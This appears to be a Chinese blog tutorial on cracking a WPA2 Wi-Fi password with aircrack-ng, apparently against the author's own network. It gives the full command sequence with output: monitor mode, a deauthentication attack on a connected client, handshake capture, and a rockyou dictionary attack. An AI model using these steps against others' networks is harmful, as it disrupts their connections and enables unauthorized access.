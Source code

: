 ```yaml
---
title: Archlinux利用aircrack-ng暴力破解wifi
date: 2023-04-29 22:02:11
tags:
---
```

#### 说明
* 本机为archlinux笔记本
* 网卡名wlp1s0 
* "wlp1s0"和"wlan0"都是Linux系统中用于表示无线网络接口的名称
* curl -L参数会让 HTTP 请求跟随服务器的重定向。curl 默认不跟随重定向。
* 大致步骤:网卡设为监听模式,扫描附近WIFI对其发起攻击，获取数据包,对包进行暴力破解
#### 准备
1. 无线网卡(笔记本自带||淘宝购买)
2. WIFI字典`curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`
#### 安装
* sudo pacman -S aircrack-ng
#### 实战
##### 1. 查看网卡  
```
iwconfig
```
```
lo        no wireless extensions.
wlp1s0    IEEE 802.11  ESSID:"i-wxxy"
          Mode:Managed  Frequency:5.805 GHz  Access Point: 98:35:ED:40:BE:10
          Bit Rate=192.7 Mb/s   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=65/70  Signal level=-45 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:145   Missed beacon:0
docker0   no wireless extensions.
br-a74bdffadf65  no wireless extensions.
vethbbcf498  no wireless extensions.
```
##### 2. 网卡设为监听（monitor）模式 
```
sudo airmon-ng start wlp1s0
```
```
Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    492 NetworkManager
    544 wpa_supplicant

PHY	Interface	Driver		Chipset

phy0	wlp1s0		rtw_8822ce	Realtek Semiconductor Co., Ltd. RTL8822CE 802.11ac PCIe Wireless Network Adapter
		(monitor mode enabled)
```
* 确保你是断网(上面进程我没杀掉，确保自己没连网就可以)
* `iwconfig`mode为`monitor`
```
lo        no wireless extensions.

wlp1s0    IEEE 802.11  Mode:Monitor  Frequency:2.417 GHz  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```
##### 3. 扫描附近的wifi
```
sudo airodump-ng wlp1s0
```
我的结果，我需要破解的是ESSID为ScumTB
```
CH  3 ][ Elapsed: 6 s ][ 2023-04-29 22:58 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 9E:7F:81:09:32:AC   -1        0        3    0   1   -1   WPA              <length:  0>                                                                       
 04:BD:70:53:07:60  -83        4        0    0   6  360   OPN              i-wxxy                                                                             
 3C:CD:57:9A:FE:7D  -78        3        0    0   5  130   WPA2 CCMP   PSK  ZNMS                                                                               
 00:1E:73:6E:64:5C  -96        2        0    0  13  270   WPA2 CCMP   PSK  SR5D_645c                                                                          
 C2:B1:76:EF:A6:20  -76        4        0    0   6  360   WPA2 CCMP   PSK  iQOO Neo5                                                                          
 30:C5:0F:47:FB:20  -87        2        0    0   6  360   OPN              i-wxxy                                                                             
 0A:54:7B:58:90:38  -31       11        0    0   6  130   WPA2 CCMP   PSK  ScumTB                                                                             
 98:35:ED:40:BE:00  -50        0        0    0   1  130   OPN              i-wxxy                                                                             
 3C:67:A5:00:2B:AC  -86        4        0    0   1  270   WPA2 CCMP   PSK  MIFI_2BAC                                                                          
 3C:CD:57:9A:FF:87  -93        2        0    0   1  130   WPA2 CCMP   PSK  ZNMS                                                                               
 3C:CD:57:AE:BD:60  -88        6        0    0  11  130   WPA2 CCMP   PSK  ZNMS                                                                               
 98:35:ED:40:B9:00  -91        5        0    0  11  130   OPN              i-wxxy                                                                             
 98:35:ED:40:C9:E0  -58        9        0    0  11  130   OPN              i-wxxy 
```

* 如果是wlan网卡设备名会变成`wlan0mon`用`wlan0mon`替代`wlp1s0`
* 记录要破解的wifi的ESSID BSSID CH
##### 4. 抓包准备攻击
尝试抓取
```
sudo airodump-ng wlp1s0 --bssid 0A:54:7B:58:90:38 -c 6
```
结果如下
```
 CH  6 ][ Elapsed: 1 min ][ 2023-04-29 23:04 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 0A:54:7B:58:90:38  -38 100      801       16    0   6  130   WPA2 CCMP   PSK  ScumTB                                                                         
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 0A:54:7B:58:90:38  A2:D7:C7:F2:4D:3F  -35   24e- 6      0       23      
```
记录BSSID：wifi ;  STATION:设备 
```
0A:54:7B:58:90:38  A2:D7:C7:F2:4D:3F
```
开始抓包并记录
```
sudo airodump-ng wlp1s0 --bssid 0A:54:7B:58:90:38 -c 6 -w ScumTB
```
打开新的终端进行断网攻击
```
sudo aireplay-ng wlp1s0 -0 10 -a 0A:54:7B:58:90:38 -c A2:D7:C7:F2:4D:3F
```
多试几次，每次结束稍微停留一会，等目标连接wifi成功，这样就抓取到数据
```
CH  6 ][ Elapsed: 18 s ][ 2023-04-29 23:22 ][ WPA handshake: A2:FC:3F:39:3E:E0 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 A2:FC:3F:39:3E:E0  -41 100      194      179    0   6  130   WPA2 CCMP   PSK  ScumTB                                                                         
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 A2:FC:3F:39:3E:E0  A2:D7:C7:F2:4D:3F  -34   24e- 6      0      208  EAPOL  ScumTB      
```
##### 5. 用字典进行暴力破解
```
sudo aircrack-ng ScumTB-01.cap -w ~/Documents/rockyou.txt
```
 .cap是抓取到的数据 -w是下载的字典
```
                               Aircrack-ng 1.7 
      [00:00:00] 26/10303727 keys tested (295.04 k/s) 
      Time left: 9 hours, 42 minutes, 3 seconds                  0.00%
                           KEY FOUND! [ 123456789 ]
      Master Key     : 0C 8D 75 1C B1 BC 0D 2A 76 E9 CC 27 33 43 76 87 
                       B0 D2 8F E5 3D B3 08 1F C0 F4 D6 76 7F 29 D8 51 
      Transient Key  : 29 C0 E1 26 7D CF 97 46 82 A8 9A 2A B4 1F E5 37 
                       33 AE D1 91 4D FB FF C8 62 16 A0 5E AF 99 41 1A 
                       59 1C 27 DD 31 24 38 96 45 27 93 2F 37 69 75 07 
                       7B 04 A4 A4 70 B6 2F 00 89 29 8E 49 91 46 4F 5B 
      EAPOL HMAC     : 57 0B 81 23 6B 4F 52 FA 53 4E 26 20 82 02 B1 15 
```
我的密码简单，很容易破解
#### 注意
* 暴力破解，如果字典没有匹配的密码是不能成功的
* 确保你是断网(网卡为monitor) 
#### 参考
> https://github.com/brannondorsey/wifi-cracking

